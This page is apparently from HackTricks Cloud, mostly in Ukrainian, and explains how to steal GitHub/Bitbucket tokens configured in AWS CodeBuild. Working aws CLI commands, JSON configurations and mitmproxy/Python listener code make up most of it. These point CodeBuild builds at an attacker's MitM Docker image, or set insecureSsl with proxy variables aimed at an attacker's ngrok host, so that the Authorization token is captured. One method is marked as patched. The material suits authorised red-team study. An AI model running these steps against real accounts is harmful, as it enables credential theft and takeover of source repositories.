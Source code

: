 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Відновлення токенів, налаштованих у Github/Bitbucket

Спочатку перевірте, чи є налаштовані облікові дані джерела, які ви могли б витікати:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Якщо ви виявите, що автентифікація, наприклад, до Github налаштована в обліковому записі, ви можете **екстрактувати** цей **доступ** (**GH token або OAuth token**), змусивши Codebuild **використовувати конкретний docker image** для виконання збірки проекту.

Для цього ви можете **створити новий проект Codebuild** або змінити **середовище** існуючого, щоб налаштувати **Docker image**.

Docker image, який ви можете використовувати, це [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Це дуже базовий Docker image, який налаштує **змінні середовища `https_proxy`**, **`http_proxy`** та **`SSL_CERT_FILE`**. Це дозволить вам перехопити більшість трафіку хоста, вказаного в **`https_proxy`** та **`http_proxy`**, і довіряти SSL CERT, вказаному в **`SSL_CERT_FILE`**.

1. **Створіть та завантажте свій власний Docker MitM image**
* Слідуйте інструкціям репозиторію, щоб налаштувати IP-адресу проксі та налаштувати свій SSL сертифікат і **збудуйте docker image**.
* **НЕ НАЛАШТОВУЙТЕ `http_proxy`**, щоб не перехоплювати запити до кінцевої точки метаданих.
* Ви можете використовувати **`ngrok`** як `ngrok tcp 4444`, щоб налаштувати проксі на вашому хості.
* Після того, як ви збудували Docker image, **завантажте його до публічного репозиторію** (Dockerhub, ECR...)
2. **Налаштуйте середовище**
* Створіть **новий проект Codebuild** або **змініть** середовище існуючого.
* Налаштуйте проект на використання **раніше згенерованого Docker image**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Налаштуйте MitM проксі на вашому хості**

* Як вказано в **Github репозиторії**, ви можете використовувати щось на зразок:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Версія **mitmproxy, що використовувалася, була 9.0.1**, повідомлялося, що з версією 10 це може не спрацювати.
{% endhint %}

4. **Запустіть збірку та захопіть облікові дані**

*   Ви можете побачити токен у заголовку **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Це також можна зробити з aws cli з чимось на кшталт

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Через insecureSSL

**Codebuild** проекти мають налаштування під назвою **`insecureSsl`**, яке приховане в вебі, і ви можете змінити його лише через API.\
Увімкнення цього дозволяє Codebuild підключатися до репозиторію **без перевірки сертифіката**, запропонованого платформою.

* Спочатку вам потрібно перерахувати поточну конфігурацію за допомогою чогось на зразок:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Потім, зібравши інформацію, ви можете оновити налаштування проекту **`insecureSsl`** на **`True`**. Наступний приклад показує, як я оновлюю проект, зверніть увагу на **`insecureSsl=True`** в кінці (це єдине, що потрібно змінити в зібраній конфігурації).
* Крім того, додайте також змінні середовища **http\_proxy** та **https\_proxy**, які вказують на ваш tcp ngrok, як:

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому тексті** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Цю вразливість виправили AWS на деякому етапі тижня 20 лютого 2023 року (я думаю, в п'ятницю). Тож зловмисник більше не може її зловживати :)**
{% endhint %}

Зловмисник з **підвищеними правами в CodeBuild може витікати токен Github/Bitbucket**, налаштований або, якщо права були налаштовані через OAuth, **тимчасовий токен OAuth, використаний для доступу до коду**.

* Зловмисник міг би додати змінні середовища **http\_proxy** та **https\_proxy** до проекту CodeBuild, вказуючи на свою машину (наприклад, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Потім змініть URL репозиторію github, щоб використовувати HTTP замість HTTPS, наприклад: `http://github.com/carlospolop-forks/TestActions`
* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому вигляді** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Тепер зловмисник зможе використовувати токен зі своєї машини, перерахувати всі привілеї, які він має, і (зловживати) легше, ніж використовуючи сервіс CodeBuild безпосередньо.
{% endhint %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

